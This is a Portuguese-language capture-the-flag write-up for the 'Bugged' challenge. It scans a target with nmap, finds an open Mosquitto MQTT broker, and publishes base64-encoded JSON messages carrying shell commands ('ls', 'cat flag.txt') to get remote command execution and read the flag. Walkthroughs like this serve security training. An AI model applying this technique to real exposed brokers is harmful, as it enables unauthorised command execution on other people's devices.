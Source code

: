 # _**Bugged CTF**_
![](bug.jpg)

## _**Enumeração**_
Primeiro, vamos começar com um scan <mark>Nmap</mark>
> ```bash
> nmap --open -A [ip_address]
> ```
![](scan_nmap.jpg)

Temos um serviço: <mark>1883/tcp open mosquitto/mark>  
Pesquisando sobre o serviço, temos as seguintes informações  
_A porta 1883 em um dispositivo indica que o broker Mosquitto MQTT está em execução e acessível_  
_MQTT (Message Queuing Telemetry Transport) é um protocolo de mensagens leve, frequentemente usado em aplicações de IoT (Internet das Coisas)_  
_A porta 1883 aberta significa que o broker está pronto para aceitar conexões MQTT não criptografadas_  

Vamos executar o comando abaixo
> ```bash
>
> ```
![](mosquitto_return.jpg)

Temos uma string em _base64_  
Traduzindo com ```echo```, temos o seguinte  

![](echo_return.jpg)

Na saída acima podemos ver nosso ID de assinante, nossos comandos registrados, o _pub_topic_ e o _sub_topic_  
Precisaremos configurar nosso assinante que ouvirá as respostas e as apresentará a nós em base64 para que possamos decodificá-las  
Em seguida, executaremos comandos para fazer solicitações ao nosso assinante explorando nosso publicador  
> ```bash
> mosquitto_sub -t U4vyqNlQtf/0vozmaZyLT/15H9TF6CHg/pub -h [ip_address]
> mosquitto_pub -t XD2rfR9Bez/GqMpRSEobh/TvLQehMg0E/sub -h [ip_address] -m [base64_message]
> ```

Enviando uma mensagem teste, temos a seguinte resposta  

![](test.jpg)

Conhecendo o formato aceito, vamos tentar o seguinte, codificando para base64  
```{"id":"cdd1b1c0-1c40-4b0f-8e22-61b357548b7d","cmd":"CMD","arg": "ls"}```  

![](flag.jpg)

Vamos alterar novamente para agora, obtermos a flag!  
```{"id":"cdd1b1c0-1c40-4b0f-8e22-61b357548b7d","cmd":"CMD","arg": "cat flag.txt"}```  
